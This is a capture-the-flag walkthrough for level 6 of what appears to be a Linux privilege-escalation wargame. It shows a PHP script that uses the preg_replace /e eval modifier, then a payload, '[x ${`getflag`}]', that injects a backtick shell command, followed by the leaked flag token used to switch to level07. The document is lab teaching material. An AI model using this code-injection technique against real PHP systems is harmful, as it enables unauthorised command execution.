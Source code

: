 


# **Level06**

### **Walk through**

For this 6th level we got two files, a .php script and a binary, respectively level06.php and level06.

`cat level06.php`

```php
#!/usr/bin/php
<?php

// Define a function 'y' that replaces '.' with ' x ' and '@' with ' y' 
// in a given string.

function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}

// Define a function 'x' that takes two parameters, reads the contents of a file
// specified by the first parameter, and performs some regular expression
// replacements on the content.

function x($y, $z) {

    // Read the contents of the file specified by $y into a variable $a.
    $a = file_get_contents($y);

    // Replace occurrences of '[x (anything)]' with the result of calling function
	// 'y' on the captured content.
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);

    // Replace '[' with '(' and ']' with ')' in the content.
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);

    // Return the modified content.
    return $a;
}

// Call function 'x' with command-line arguments and print the result.
$r = x($argv[1], $argv[2]);
print $r;
?>

```

We should take a special attention at this precise line:

**`$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);`**

Indeed, the `/e` is a well know vulnerabilities in php script. The e modifier in PHP regular expressions stands for "eval." When used, it allows the evaluation of the matched pattern as PHP code. We will use it at our advantage. We'll write a script that we'll pass as argument at ./level06.

```
echo '[x ${`getflag`}]' > /tmp/flag06
./level06 /tmp/flag06

PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

```

The flag is **wiok45aaoguiboiki2tuin6ub**

We will use it to log as level07

`su level07`


